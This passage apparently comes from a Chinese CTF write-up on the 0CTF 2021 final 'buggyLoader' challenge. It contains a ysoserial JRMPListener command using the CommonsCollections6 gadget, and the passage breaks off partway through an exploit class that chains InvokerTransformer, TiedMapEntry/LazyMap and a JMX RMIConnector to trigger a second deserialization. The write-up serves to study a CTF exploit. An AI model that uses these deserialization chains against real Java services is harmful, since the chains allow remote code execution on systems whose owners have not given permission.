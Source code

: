 ```java

            for(int i = 0; i < bytes.length; ++i) {
                int b = 15 & bytes[i] >> 4;
                ret.append("0123456789abcdef".charAt(b));
                b = 15 & bytes[i];
                ret.append("0123456789abcdef".charAt(b));
            }

            return ret.toString();
        }
    }
```

jrmp 并以为可以打，才发现环境不出网，并且jdk的版本可能会导致不行。。。

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections6 'calc'
```

#### 二次反序列化

这里我就直接给exp，exp是 https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2021-final/buggyLoader/writeup

自己并没有做出来，是后面分析出的。。

该exp的核心 一是使用了cc11链，而且使用了jmx去进行二次反序列化。http://mx4j.sourceforge.net/docs/ch03s15.html

通过jmx去封装，去触发二次反序列化。

exp

```java
package com.tctffinal.demo.exp2;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Exp {
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);

        //创建InvokerTransformer类 sink
        InvokerTransformer transformer = new InvokerTransformer("connect", null, null);

        //JMXServiceURL jurl = new JMXServiceURL("service:jmx:rmi:///stub/" + Temp.getExp());//jmx协议
        //Map hashMapp = new HashMap();
        //RMIConnector rc = new RMIConnector(jurl,hashMapp);

        String finalExp = "service:jmx:rmi:///stub/" + Temp.getExp();//jmx协议
        RMIConnector rmiConnector = new RMIConnector(new JMXServiceURL(finalExp), new HashMap<>());//jmx连接


```